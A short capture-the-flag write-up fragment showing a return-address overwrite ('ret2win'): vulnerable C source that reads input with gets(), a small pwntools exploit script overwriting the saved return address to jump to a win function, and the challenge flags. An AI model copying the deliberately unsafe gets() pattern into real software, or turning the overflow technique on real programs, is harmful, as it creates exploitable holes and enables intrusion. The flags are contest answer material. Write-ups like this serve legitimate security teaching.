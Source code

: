**flag**: maple{ovewwwiting_stack_vawiabwes}

---

## wetuwn addwess

check binary, No PIE enabled. So just overwrite RIP to win to get the flag

```
void win() {
    puts(flag);
}

int main() {
    alarm(60);
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    char name[32];

    FILE* flagfile = fopen("flag.txt", "r");

    if (flagfile == NULL) {
        puts("Error: could not read flag file");
        exit(1);
    }

    fgets(flag, FLAG_LEN, flagfile);

    puts("What's your name?");
    gets(name);
    printf("Hello %s! Let's go to %p\n", name, __builtin_return_address(0));

    return 0;
}
```

exp.py

```
io = start()

stack = flat({
    0x30+8: 0x00401216,
},filler=b'\x00',length=0x40)

io.sendlineafter(b"What's your name?", stack)

io.interactive()
```

**flag**: maple{r3turn_t0_w1n}

---
